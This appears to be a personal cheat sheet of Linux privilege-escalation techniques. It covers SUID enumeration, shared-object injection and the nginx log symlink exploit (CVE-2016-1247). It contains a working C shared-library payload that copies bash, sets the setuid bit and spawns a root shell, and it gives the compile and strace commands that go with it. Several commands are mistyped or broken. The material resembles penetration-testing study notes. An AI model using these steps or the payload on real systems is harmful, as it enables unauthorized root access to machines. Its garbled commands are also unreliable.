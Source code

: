 `find / -perm -u=s -type f 2>dev/null`  
Also we can use winpeas.

Then search find file gtfo website.

* * *

## Other SUID escalation

`find / -type f -perm 04000 -ls 2>/dev/null`

#### Esclation via shared object injection

Check for the file which have shared asccess.  
to check access. `ls -la <filename>`  
Try running it. To get more info: `starce <filename> 2&>1`

`starce <filename> 2&>1 | grep -i -E "open|acess|no such file"`

Check for path and try inject malicious code instead. So when executing the file name again. It should execute the malicious code:

```C
#include<stdio.h>
#include<stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
 system("cp /bin/bash/ /tmp/bash && chmod +s  /tmp/bash && /tmp/bash -p");
 }
```

`gcc -shared -fPIC -o <filepath/filename> <file.c>`

Then we can get root access.

* * *

#### Escalation via binary symlinks(symbolic link)

[Nginx-Exploit](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)

When web server is compromised we login as www-data user.

- Run Lunux-Exploit-Suggester

- Then try to find nginxed-root.sh exploit.

- `dpkg -l | grep nginx`

- `find / -type f -perm 04000 -ls 2>/dev/null` and check if /usr/bin/sudo  have -rws------. This is required fot exploit to work.

- To see log file `ls -la /var/log/nginx` Then we need to replace the log file with malicious code for sylink.
